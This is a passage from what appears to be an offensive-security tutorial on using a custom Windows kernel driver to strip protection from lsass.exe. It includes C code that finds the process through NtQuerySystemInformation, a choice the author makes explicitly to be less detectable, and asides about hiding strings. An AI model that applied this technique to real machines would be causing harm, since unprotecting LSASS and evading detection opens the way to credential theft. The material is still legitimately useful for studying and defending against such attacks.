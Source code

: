 You can see us running `CreateFile` pointed at `\\\\.\\noah` which translates to `\\.\noah` without escape characters.  This is equivalent to saying `\\DosDevices\noah` which is the path we specified in our driver code.   This `HANDLE` is how Windows knows where to send our IRP requests.  

Then we run `GetRemoteProcessHandle` which opens a process handle to `lsass.exe`

Finally we attach to the process and then unprotect it.

## GetRemoteProcessHandle

Before getting a process handle we first need to find it.  This can be done many different ways, I chose to use `NtQuerySystemInformation` because its a little less overt then a common enumeration function like [`EnumProcesses`](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumprocesses).


```c
NTSTATUS NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```
The `SYSTEM_INFORMATION_CLASS`  struct specifies what kind of information you want returned from this function.  Passing `SystemProcessInformation` really just tells the function we don't need any additional information, the baseline operation of the function is enough.


```c
//Target Process
const wchar_t* wProc = L"lsass.exe";
const wchar_t* wTargetDLL = L"C:\\Windows\\system32\\lsasrv.dll";
...
...
bool GetRemoteProcessHandle(HANDLE* hTarget, DWORD* PID) {

	HMODULE hNtdll = GetModuleHandleA("ntdll.dll"); //i know these strings r baddddd
	fnNtQuerySystemInformation pNtQuerySystemInformation = NULL;

	if (!hNtdll) {
		printf("Failure finding module...");
		return false;
	}
	pNtQuerySystemInformation = (fnNtQuerySystemInformation)GetProcAddress(hNtdll, "NtQuerySystemInformation"); //i should probabyl do some kind fo encoding for this..

	if (!pNtQuerySystemInformation) {
		printf("Failure finding fucntions...");
		return false;
	}
```

First we get a module handle to `Ntdll.dll` so that we can find a pointer to the `NtQuerySystemInformation` function and call it.
